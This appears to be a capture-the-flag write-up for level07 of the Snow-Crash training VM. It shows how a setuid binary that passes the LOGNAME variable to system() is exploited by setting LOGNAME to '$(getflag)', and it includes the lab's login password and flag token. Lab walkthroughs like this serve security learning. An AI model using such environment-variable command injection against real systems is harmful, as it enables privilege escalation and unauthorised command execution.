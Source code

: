 # Flag 07

- Access to Snow-Crash VM using level07/wiok45aaoguiboiki2tuin6ub credentials
```
e1r9p7% ssh -p 4242 level07@10.11.100.146
```

- `ll`
```
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
```

- Run level07
```
level07@SnowCrash:~$ ./level07 
level07
level07@SnowCrash:~$ ./level07 aaa
level07
level07@SnowCrash:~$ ./level07 aaa bbb
level07
```

- I think that the binary show 1st arg, so show the prog name 

- `strings level07`
```
not interesting
```

- Try with ltrace 
```
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                   = 2007
geteuid()                                                   = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)         = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)         = 0
getenv("LOGNAME")                                           = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                      = 0
+++ exited (status 0) +++
```

-  So now as we see the binary use `getenv("LOGNAME")`, so it shows the env var of LOGNAME
```
level07@SnowCrash:~$ echo $LOGNAME
level07
```

- I will try to modify the value of the env var `LOGNAME`.
```
level07@SnowCrash:~$ export LOGNAME='issam'

level07@SnowCrash:~$ ./level07
issam

level07@SnowCrash:~$ echo $LOGNAME
issam
```

- Now it's clear, I will try to pass the exec of getflag to LOGNAME env var 
```
level07@SnowCrash:~$ export LOGNAME='$(getflag)'

level07@SnowCrash:~$ echo $LOGNAME
$(getflag)

level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```


